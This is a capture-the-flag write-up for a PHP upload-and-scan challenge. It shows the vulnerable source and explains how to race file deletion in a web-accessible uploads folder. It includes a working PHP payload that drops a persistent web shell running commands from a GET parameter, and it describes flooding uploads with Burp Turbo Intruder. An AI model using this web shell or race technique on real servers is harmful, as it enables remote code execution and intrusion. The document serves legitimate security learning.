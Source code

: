 ## Skills required: Try out basic ideas

I didn't solve this challenge and only have time to solve this challenge 4 days afterwards, thank God they kept the site on.

## Solution and reflections:

The app is open source:

```php
<?php

if (isset($_FILES["file"])) {
    $size = $_FILES["file"]['size'];

    if ($size > 100) {
        echo "For such large files, buy premium";
    } else {
        $target_dir = "uploads/";
        $target_file = $target_dir . $_FILES["file"]["name"];
        
        move_uploaded_file($_FILES["file"]["tmp_name"], $target_file);
        
        function hasVirus($file_path) {
            # Check for Virus
            $argument = escapeshellarg($file_path);
            exec("clamscan $argument", $output, $retval);
        
            if ($retval != 0) {
                return true;
            } 
            return false;
        }
        
        if (hasVirus($target_file)) {
            echo "The file contains a virus!";
        } else {
            echo "The file is safe to use!";
        }
        
        unlink($target_file);
    }
    
}

if (isset($_GET["source"])) {
    highlight_file(__FILE__);
}
?>

<form action="index.php" method="post" enctype="multipart/form-data">
  Select suspicious file to upload:
  <input type="file" name="file">
  <input type="submit" value="Upload" name="submit">
</form>



</div> 

</form>
This app is <a href="/?source=1">open source</a>.
</body>
</html>
```
We can see the `uploads` folder, but upon accessing it gives `403`:

![image](https://user-images.githubusercontent.com/114584910/195605263-0db0a452-dd53-4349-9519-df931c3fc8fc.png)

This gives us the idea that while the folder is not accessible, the **files inside can be accessed** before their deletion. We just need to be *fast*.
I failed to solve this challenge because while I had the idea, I failed to do it *manually* and decided that clamscan is fast enough that I have to halt or slow clamscan somehow.
Sadly there are 2 recent vulnerability (CVE-2022-20770, CVE-2022-20771) with clamav and I spent a lot of time going down those routes and got tired.

My payload creates a foothold in the directory so that I don't need to send another file again. 100 characters is more than enough:

```php
<?php
exec('echo \'<?php exec($_GET["c"], $o); print_r($o); ?>\' > raccoon_exploit.php');
?>DONE
```

There are many ways to do it from bash scripts and python parallel tasks. Solving this post event, I used burp Turbo Intruder as it's performant, easy to configure and free:

![raccoon.php](https://user-images.githubusercontent.com/114584910/195608320-9c49b002-bd16-4cd2-a8dc-bc97ccb7f994.png)

Everything's easy after gaining foothold:

![rce](https://user-images.githubusercontent.com/114584910/195609451-018a56ec-c987-4806-9ce0-3a6d0e5c00af.png)

The flag can then be `cat`ted.
